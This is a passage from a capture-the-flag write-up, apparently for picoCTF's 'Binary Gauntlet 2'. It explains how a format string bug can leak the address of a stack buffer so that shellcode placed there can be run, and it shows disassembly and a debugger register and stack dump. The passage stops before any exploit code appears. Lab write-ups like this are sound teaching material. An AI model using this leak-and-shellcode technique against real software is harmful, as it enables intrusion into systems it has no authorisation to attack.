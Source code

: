 A format string vulnerability is when the program allows the user to control the first parameter to `printf`. This means that the user can provide format string specifiers such as `%x`, `%s` or `%p` and leak data from the stack. We'll want to use this vulnerability to leak the address of the local buffer, so that we can jump to it and execute our shellcode from it. 

Let's run the program in the debugger and check the address of the local buffer. But first, we'll check the disassembly and see where the buffer starts:

```assembly
   0x0000000000400701 <+122>:   mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400705 <+126>:   add    rax,0x3e7
   0x000000000040070b <+132>:   mov    BYTE PTR [rax],0x0
   0x000000000040070e <+135>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x0000000000400712 <+139>:   lea    rax,[rbp-0x70]
   0x0000000000400716 <+143>:   mov    rsi,rdx
   0x0000000000400719 <+146>:   mov    rdi,rax
   0x000000000040071c <+149>:   call   0x400550 <strcpy@plt>
```

The destination for the `strcpy` (as reflected in `rdi`) is `rbp-0x70`, so that's where the local buffer starts. Now, to the debugger. We set a breakpoint at `main`, step a few instructions ahead to that the stack frame is set up and check what's the address of our local buffer:

```
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0000000000400687  →  <main+0> push rbp
$rbx   : 0x0
$rcx   : 0x00007ffff7fb1718  →  0x00007ffff7fb3b00  →  0x0000000000000000
$rdx   : 0x00007fffffffe968  →  0x00007fffffffec09  →  "LANG=en_IL"
$rsp   : 0x00007fffffffe7e0  →  0x00007fffffffe958  →  0x00007fffffffebda  →  "/media/sf_CTFs/pico/Binary_Gauntlet_2/gauntlet"
$rbp   : 0x00007fffffffe860  →  0x0000000000400730  →  <__libc_csu_init+0> push r15
$rsi   : 0x00007fffffffe958  →  0x00007fffffffebda  →  "/media/sf_CTFs/pico/Binary_Gauntlet_2/gauntlet"
$rdi   : 0x3e8
$rip   : 0x000000000040069b  →  <main+20> call 0x400580 <malloc@plt>
$r8    : 0x0
$r9    : 0x00007ffff7fe2180  →  <_dl_fini+0> push rbp
$r10   : 0x0
$r11   : 0x0
$r12   : 0x00000000004005a0  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
$eflags: [zero CARRY parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffe7e0│+0x0000: 0x00007fffffffe958  →  0x00007fffffffebda  →  "/media/sf_CTFs/pico/Binary_Gauntlet_2/gauntlet"                                                                                     ← $rsp
0x00007fffffffe7e8│+0x0008: 0x0000000100000000
0x00007fffffffe7f0│+0x0010: 0x0000000000000000
0x00007fffffffe7f8│+0x0018: 0x0000000000000000
0x00007fffffffe800│+0x0020: 0x0000000000000000
0x00007fffffffe808│+0x0028: 0x0000000000000000
0x00007fffffffe810│+0x0030: 0x0000000000f0b5ff
0x00007fffffffe818│+0x0038: 0x00000000000000c2
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40068f <main+8>         mov    DWORD PTR [rbp-0x74], edi
```